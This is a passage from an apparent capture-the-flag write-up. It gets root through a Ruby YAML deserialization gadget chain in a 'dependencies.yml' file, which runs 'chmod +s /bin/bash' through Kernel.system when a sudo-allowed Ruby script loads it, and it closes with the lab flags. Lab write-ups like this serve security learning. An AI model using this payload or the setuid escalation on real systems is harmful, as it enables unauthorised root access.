 ```ruby
end
```

After some digging, I found [this Ruby Deserialization payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) for `ruby 2.x - 3.x`.

*malicious dependencies.yml*
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

This payload will give `/bin/bash` the `SETUID` bit which will allow `henry` to become `root` after running `/bin/bash -p`. Now to execute this payload...

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

The rest is cake.

### Flags
**user.txt:** `93e80c871eea9adf9a0c904eb544fe60`

**root.txt** `605e512e74cf708988d7fd7539e10d1f`